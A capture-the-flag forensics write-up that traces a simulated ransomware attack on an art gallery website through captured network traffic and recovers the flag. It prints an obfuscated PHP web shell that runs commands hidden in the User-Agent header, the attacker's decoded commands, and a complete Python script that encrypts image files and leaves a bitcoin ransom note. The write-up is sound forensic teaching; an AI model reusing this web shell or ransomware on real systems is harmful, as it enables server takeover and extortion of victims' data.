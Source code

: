 ```yaml
---
layout: post
title:  "Anatomy of a ransomware attack"
summary: "Analyze a ransomware attack through network traffic"
author: trigleos
date: '2021-03-25 20:00:00 +0200'
category: ['Networking','Threat_Hunting','Forensics']
tags: Forensics, Threat Hunting, Networking, wireshark
thumbnail: /assets/img/posts/ransomware-anatomy/ransom.png
keywords: Forensics, Threat Hunting, Networking, wireshark
usemathjax: false
permalink: /blog/ransomware-anatomy/
---
```

# Art Gallery
## TL;DR
Analyze a ransomware attack through network traffic
## Description
This was a Forensics challenge from the DaVinciCTF, where my team irNoobs managed to finish on the 4th place. This challenge particularly was extremely interesting as it closely mirrored an investigation of a ransomware attack, from the initial infection vector to the encryption routine.

**Challenge Description**: Alert! A famous online art gallery has just suffered an intrusion! The hacker has deployed a ransomware and demands an exorbitant ransom to return all of the gallery’s data… Fortunately, their teams had the presence of mind to capture the network at the time of the attack! You must help them recover their art, at least their most famous, “Flag sur fond de soleil couchant”. Its value is inestimable… Be careful, this pirate seems methodical and experienced! Tracing a precise history of the attack should help you see more clearly!

The challenge gives us an artgallery.pcap.xz file. You can find it at https://github.com/Trigleos/CTF/blob/master/dvCTF2021/artgallery.pcap.xz


## Initial analysis
A quick unxz after, we have a huge pcap file, with a bunch of useless stuff. The traffic we need to analyze this attack is at the bottom of the file. First, let’s extract the website of the art gallery and see what it looks like. You can do this easily by opening up the pcap file in wireshark and extracting HTTP objects. After rebuilding the homepage, the website looks like this:

![first webpage](/assets/img/posts/ransomware-anatomy/webpage1.png)

![second webpage](/assets/img/posts/ransomware-anatomy/webpage2.png)

The webpage isn’t really complicated, the only thing you can do is upload images. If you upload an image, the webiste calls upload.php, which we don’t have access to. This form might be exploitable if it is wrongly configured, so let’s investigate further and see what the attacker did to breach the website.
## Pentesting the website
Starting from packet 373300, we can see HTTP calls to upload.php. The first POST contains a test.jpg image so let’s take a look at it:

![test image](/assets/img/posts/ransomware-anatomy/test.jpg)

There’s nothing hidden inside, just this simple image so let’s take a look at the next POST request. It contains the same file, however there’s one major difference. The name of the image was changed to **test.jpg.php**. Even though this file has a dangerous extension, the website still responds with:
**Thank you for your confidence. Your artwork is ready to be shared !**
This is clearly a vulnerability as an attacker could exploit this to upload php scripts that he can execute to compromise the webserver. Let’s take a look at the last POST request to /upload.php. This time the request contains an helper.php file that contains the following code:
```php
<?php eval(base64_decode("JHBheWxvYWQgPSBlbmQoZXhwbG9kZSgiOyIsICRfU0VSVkVSWyJIVFRQX1VTRVJfQUdFTlQiXSkpOwpzeXN0ZW0oYmFzZTY0X2RlY29kZSgiJHBheWxvYWQiKSk7")); ?>
```
The code first decodes the base64 encoded payload and then calls eval on it, which simply executes the string as code. When we decode the base64 payload, we get the following:
```php
$payload = end(explode(";", $_SERVER["HTTP_USER_AGENT"]));
system(base64_decode("$payload"));
```
So let’s quickly analyze this code. explode() splits a strings into multiple values and end() takes the last value of an array. So the first line splits the HTTP User-Agent string by the ; character and then takes the last value of that array and saves it in $payload. The next line simply base64 decodes that value and then executes it on the system. So we know now how the attacker is planning on bringing his payload onto the webserver. He’ll append base64 encoded bash commands to the end of the HTTP User-Agent string, which will then get executed on the system
## Exploiting the vulnerability

Now that we know how the attacker plans on executing stuff on the server, let’s see if we can find one example of this. We can find a request to helper.php at packet number 373437. The User-Agent for this reqeust is the following:
```
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.75 Safari/537.36;bHM=
```
Now we take the last value after a ; which is bHM= and we base64 decode it to get ls
We can find the answer to this GET request a few packets down and it contains the plaintext:
```
RANSOM_README.txt

back_to_school.jpg

book_and_knives.jpg

dead_cameras.jpg

dont_just_stand_there.jpg

flag_sur_fond_de_soleil_couchant.jpg

helper.php

test.jpg

test.jpg.php

tools_and_dust.jpg
```
Now we know that the exploit works and we need to extract every User-Agent out of this pcap to get the entire payload.
My teammate Nick came up with a tshark command that did this very quickly while I simply went through the pcap and extracted each User-Agent by hand. Here’s his command:
```bash
tshark -Y 'http.request.uri=="/uploads/helper.php"' -T fields -e http.host -e http.user_agent -r artgallery.pcap | awk -F ';' '{print $3}' | uniq > base64_enc.txt
cat base64_enc.txt | base64 -d
```
If we run this, we get the following decoded commands:
```bash
ls 
python3 --version 
echo -n '#!/usr/bin/python3' >> ransom_v1.py 
echo -n 'from Crypto.Cipher import AES' >> ransom_v1.py 
echo -n 'import time, os' >> ransom_v1.py 
echo -n 'from hashlib import md5' >> ransom_v1.py
.
.
.
python3 ./ransom_v1.py
rm test.jpg
rm test.jpg.php
rm ransom_v1.py
rm helper.php
```
We can see that the attacker first checks if python3 is on the system, then crafts a python script called ransom_v1.py and executes it and finally deletes all evidence. So now, we need to reconstitute the python script and see what it does.
## Analyzing the ransomware
If we put all the echo commands together, we get the following python script:
```python
#!/usr/bin/python3
from Crypto.Cipher import AES
import time, os
from hashlib import md5

BS = 128
pad = lambda s: s + (BS - len(s) % BS) * chr(BS - len(s) % BS).encode("utf-8")

key = b"RLY_SECRET_KEY_!"  #key used for the AES encryption
iv = md5((b"%d" % time.time()).zfill(16)).digest()  #IV based on current epoch
cipher = AES.new(key, AES.MODE_CBC, iv)

files = os.listdir(".")  #lists all files in the current directory
for file in files:
    ext = file.split(".")[-1]
    if os.path.isdir(file) != True and (ext == "png" or ext == "jpg"):  #checks if file is an image file
        with open(file, "rb") as f:
            data = f.read()
        with open(file, "wb") as f:
            f.write(cipher.encrypt(pad(data)))  #encrypts opened file

with open("RANSOM_README.txt","wb") as f:
    f.write(b"""All your works of art have been encrypted with military grade encryption ! 
To recover them, please send 1000000000 bitcoins to 12nMSc17YjeD6fSQDjab8yfmV7b6qbKRS9
Do not try to find me (I use VPN and d4rkn3t to hide my ass :D) !!""")
```

The script encrypts image files using AES. We can easily reverse this because we know what the key is and we can get the IV by looking at the time at which the python3 ./ransom_v1.py command got send to the server. In our case, this would be a time of 1611844509, which you can find in packet 374551.
Now we only need to extract the encrypted flag_sur_fond_de_soleil_couchant.jpg file which luckily for us is part of the pcap file. When we have all that, our decryption code looks like this:

```python
from Crypto.Cipher import AES
from hashlib import md5

key = b"RLY_SECRET_KEY_!"  #key used for the AES encryption
iv = md5((b"%d" % 1611844509).zfill(16)).digest()  #IV based on current epoch
cipher = AES.new(key, AES.MODE_CBC, iv)

with open("flag_sur_fond_de_soleil_couchant.jpg", "rb") as f:
    data = f.read()
with open("flag_sur_fond_de_soleil_couchant_decrypted.jpg", "wb") as f:
    f.write(cipher.decrypt(data))  #decrypts image file
```

Unfortunately, this does not return a completely correct jpg file. the first 16 bytes aren’t correct because the IV was actually a different one than the one we used. I tried bruteforcing the IV but to no avail. Later, it turned out that someone did a mistake with this and the image was wrongly encrypted. However, luckily for us, it seems that the author used photoshop to put the flag into this image, because if we analyze the file with strings (A wrong IV only affects the first 16 bytes), we can find the following text:
```
photoshop:LayerText="dvCTF{t1m3_i5_n0t_r4nd0m_en0ugh}"
```
So the text was put onto the image as a Layer, which is why we can see it here. This means that the flag is dvCTF{t1m3_i5_n0t_r4nd0m_en0ugh}
## Conclusion
This was a really interesting challenge. It made you analyze an entire attack and understand every aspect of it, from the initial vulnerability in upload.php to the execution of commands on the server. This was also one of the first CTFs where my team and I managed to win something. Everyone really put the effort in and in the end it payed off. Until next time.
-Trigleos


